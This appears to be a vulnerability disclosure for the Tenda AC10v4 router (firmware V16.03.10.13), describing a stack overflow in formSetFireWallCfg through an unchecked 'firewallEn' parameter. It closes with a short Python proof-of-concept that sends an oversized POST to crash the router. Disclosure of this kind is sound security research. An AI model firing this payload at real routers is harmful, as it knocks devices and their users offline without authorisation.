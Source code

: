 # Notification of Stack Overflow Vulnerability in Tenda AC10v4 Router (Version V16.03.10.13) by Shenzhen Tenda Technology 

Router Firmware Download: [https://www.tenda.com.cn/material/show/103506](https://www.tenda.com.cn/material/show/103506)

Vulnerability URL：http://192.168.100.135/goform/SetFirewallCfg

The vulnerability occurs at the function `formSetFireWallCfg`.

![image](https://github.com/xubeining/Cve_report/blob/main/photoforstackoverflow1.png)
![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow2.png)

The program retrieves the user input parameter "firewallEn" but does not perform size checks.  
When the parameter input is too large, it causes a stack overflow, leading to a crash or potential exploitation.  
The issue is located in the `formSetFireWallCfg` function, which is referenced by `formDefineTenDa` at line 28.

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow3.png)

The issue can be further cross-referenced to `FUN_0043b3d8`, with particular attention to lines 50 and 53.

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow4.png)

The vulnerability occurs on the page path: `goform/SetFirewallCfg`.

## Now, let's proceed with the reproduction.

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow5.png)

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow6.png)

Now, run the script.

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow7.png)
![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow8.png)

The router crashes, and the website becomes inaccessible.

## Payload
```python
import requests

url = "http://192.168.100.135/goform/SetFirewallCfg"
payload = {
    'firewallEn': b'a' * 100000
}
res = requests.post(url=url, data=payload)
